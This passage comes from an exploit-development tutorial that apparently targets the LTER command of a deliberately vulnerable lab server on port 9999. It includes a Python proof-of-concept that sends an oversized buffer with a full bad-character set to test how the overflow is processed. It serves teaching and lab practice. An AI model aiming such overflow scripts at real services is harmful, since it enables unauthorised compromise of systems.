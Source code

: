 ##### This behaviour could determine that the amount of bytes given to execute once the flow is obtained is very limited to our needs. This may be an issue later on, but for now, we'll simply switch the bad characters from the end of the buffer to the middle and see if that processes all of them!

###### PoC code:

```term
import socket, sys, struct

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "LTER /.:/" + "A" * 2500 + badchars + "A" * (3515 - 2500 - len(badchars)) + "BBBB" + "CCCC" + "\xff" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Checking the stack, we see an interesting response.

![](/assets/img/LTER/5.png)
